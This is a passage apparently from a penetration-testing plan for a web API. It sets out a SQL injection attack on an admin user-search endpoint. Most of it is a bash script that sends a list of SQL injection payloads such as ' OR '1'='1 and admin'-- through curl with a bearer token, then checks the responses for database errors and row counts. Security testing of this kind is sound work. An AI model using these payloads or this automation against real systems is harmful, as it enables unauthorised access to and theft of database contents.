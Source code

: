 
## 2. Injection Attacks

### Attack 2.1: SQL Injection via Admin Search
**Attack Vector:** Authenticated (Admin)  
**Complexity:** Medium  
**Impact:** Critical  
**MITRE ATT&CK:** T1190 (Exploit Public-Facing Application)

#### Description
Admin user search functionality may be vulnerable to SQL injection through Unicode bypass of `toLowerCase()`.

#### Attack Steps

**Complete SQL Injection Testing Suite**
```bash
#!/bin/bash
# sql_injection_comprehensive.sh - Full SQL injection attack automation

TARGET_API="https://api.example.com"
ADMIN_TOKEN="eyJhbGciOiJSUzI1..."
ENDPOINT="/api/admin/users"

# Test 1: Basic SQL injection detection
echo "[+] Testing for SQL injection vulnerability..."

TEST_PAYLOADS=(
  "'"
  "' OR '1'='1"
  "' OR '1'='1'--"
  "' OR '1'='1'#"
  "admin'--"
  "admin' #"
  "' OR 1=1--"
  "') OR ('1'='1"
  "')) OR (('1'='1"
)

for payload in "${TEST_PAYLOADS[@]}"; do
  echo "[*] Testing payload: $payload"
  
  RESPONSE=$(curl -s -w "\n%{http_code}" \
    -X GET "${TARGET_API}${ENDPOINT}?search=${payload}" \
    -H "Authorization: Bearer ${ADMIN_TOKEN}")
  
  HTTP_CODE=$(echo "$RESPONSE" | tail -n1)
  BODY=$(echo "$RESPONSE" | head -n-1)
  
  # Check for SQL errors
  if echo "$BODY" | grep -qE "(syntax error|PostgreSQL|pg_|mysql|SQL)"; then
    echo "[VULN] SQL error detected! Payload: $payload"
    echo "$BODY" > "sqli_error_${HTTP_CODE}.txt"
  fi
  
  # Check for boolean-based blind SQLi
  if [ "$HTTP_CODE" == "200" ]; then
    ROW_COUNT=$(echo "$BODY" | jq '. | length' 2>/dev/null)
    echo "[INFO] Rows returned: $ROW_COUNT"
  fi
done

echo ""
```